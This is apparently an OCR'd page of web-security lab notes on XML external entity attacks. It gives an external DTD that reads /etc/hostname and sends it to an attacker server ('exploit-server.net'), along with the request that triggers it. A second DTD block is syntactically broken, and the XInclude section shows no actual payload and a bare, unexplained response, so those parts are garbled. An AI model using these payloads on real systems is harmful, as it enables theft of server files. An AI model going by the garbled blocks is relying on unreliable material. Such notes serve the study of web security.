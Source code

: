* external.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM
'https://exploit-server.net/?x=%file;'>">
%eval;
%exfil;
```

* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM
"https://exploit-
server.net/external.dtd"> %xxe; ]>
<stockCheck>
<productId>
17
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

* external.dtd

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM
'https://exploit-server.net/?x=%file;'>">
<!ENTITY &#x25; exfil SYSTEM 'https://exploit-
server.net/?x=?content_of_hostname_file'>">
%exfil;
```

* Attacker Controlled Server -> Received content of hostname file

#### Exploiting XInclude To Retrieve Files
XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document.

* Request
```xml 
POST /product/stock HTTP/2
...
productId=1&storeId=1
```

* Response
```xml
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3
107
```
